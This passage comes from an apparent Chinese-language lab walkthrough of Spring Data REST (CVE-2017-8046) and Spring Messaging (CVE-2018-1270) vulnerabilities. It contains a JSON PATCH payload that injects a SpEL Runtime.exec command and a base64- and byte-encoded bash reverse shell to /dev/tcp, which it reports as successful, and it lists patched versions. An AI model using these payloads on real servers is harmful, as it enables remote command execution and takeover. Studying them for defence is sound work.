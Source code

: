     [  
     { "op": "replace",   
       "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,122,99,99}))/lastname",  
       "value": "vulhub"   
     }  
    ]  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083055.png)

成功写入：

![](https://gitee.com/fuli009/images/raw/master/public/20210903083056.png)image-20210829214306623

反弹shell的poc，先进行base64编码：

    
    
    bash -i >& /dev/tcp/192.168.173.1234/8888 0>&1  
      
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}  
      
      
    98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,77,121,52,120,77,122,77,118,77,84,73,122,78,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083057.png)image-20210829214750387![](https://gitee.com/fuli009/images/raw/master/public/20210903083058.png)image-20210829214929261

写入poc，成功反弹。

#### 安全防护

升级到以下最新版本：* Spring Data REST 2.5.12, 2.6.7, 3.0 RC3 * Spring Boot 2.0.0.M4 *
Spring Data release train Kay-RC3

对于该漏洞底层原理分析的文章可以参考这一篇：https://blog.spoock.com/2018/05/22/cve-2017-8046/

### 4.Spring Messaging远程命令执行突破(CVE-2018-1270)

#### 漏洞简介

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用StandardEvaluationContext解析，造成命令执行漏洞。

#### 影响版本

    
    
    Spring Framework 5.0 - 5.0.5  
    Spring Framework 4.3 - 4.3.15  
    已不支持的旧版本仍然受影响  
    

#### 漏洞验证
